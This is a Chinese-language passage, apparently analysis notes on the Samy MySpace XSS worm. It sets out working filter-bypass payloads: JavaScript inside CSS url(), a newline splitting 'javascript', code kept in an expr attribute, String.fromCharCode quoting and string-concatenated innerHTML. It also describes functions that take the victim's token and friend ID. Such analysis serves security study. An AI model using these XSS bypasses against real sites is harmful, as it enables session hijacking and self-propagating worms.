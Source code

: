 ### 绕过思路

Myspace 网站过滤了许多标签，事实上仅允许控制`<a>, <img>, <div>`等少数标签，而不允许输入`<script>, <body>`, onClicks, onAnythings, href’s with javascript 等等。

然而，有些浏览器 (IE, some versions of Safari, others) 允许在CSS标签中使用 javascript . 我们需要 javascript 来促成我们的工作。例如：`<div style=”background:url(‘javascript:alert(1)’)”>`

不能在div中使用引号，因为已经使用单引号和双引号。这使得编写JS很困难。我们使用一个表达式来存放js脚本，然后调用其名称执行。
Example: `<div id=”mycode” expr=”alert(‘hah!’)” style=”background:url(‘javascript:eval(document.all.mycode.expr)’)”>`


这样，我们就能使用单引号了。然而, myspace 将过滤任意地方的 “javascript” .但有的浏览器解析 “java\nscript” 为 “javascript” (或是 ` java<NEWLINE>script`)。Example: `<div id=”mycode” expr=”alert(‘hah!’)” style=”background:url(‘javascript:eval(document.all.mycode.expr)’)”>`

除了能使用单引号外，我们还需要双引号。这时我们使用转义引号, e.g., “foo\”bar”. 

Myspace 会转义所有的引号，无论是单引号还是双引号，然而我们可以转换在JavaScript中将10进制为ascii，例如: `<div id=”mycode” expr=”alert(‘double quote: ‘ + String.fromCharCode(34))” style=”background:url(‘javascript:eval(document.all.mycode.expr)’)”>`

为了发送POST代码给正在浏览的用户的 profile，我们需要获得网页的源码。我们可以使用 `document.body.innerHTML`。Myspace 过滤了所有的“innerHTML” . To avoid this, we use an eval() to evaluate two strings and put them together to form “innerHTML”.

Example: `alert(eval(‘document.body.inne’ + ‘rHTML’));`


### 将主要代码至于属性expr中，避免引号使用困难
```
<div id=mycode style="BACKGROUND: url('java
script:eval(document.all.mycode.expr)')" expr="var 
```

例如：
```
<div id=mycode expr="alert(123);"></div><script>javascript:eval(document.all.mycode.getAttribute("expr"));</script>
```
<div id=mycode style="background:url('http://www.baidu.com')"></div>
## 主要函数
- g() 生成文本range，执行在其中输入text内容，返回其结果；
- getData()，获取认证中的‘friedID’ 和 ‘Mytoken’
- getclientFID(), 获取客户端FID





### function getQueryParams()
```js
function getQueryParams(){
    var E=document.location.search; //获取当前页面url中?开始的部分
    var F=E.substring(1,E.length).split('&');
    var AS=new Array();
    for(var O=0;O<F.length;O++){
        //形成一个键值对字典
        var I=F[O].split('=');
        AS[I[0]]=I[1]
    }
    return AS

}
```
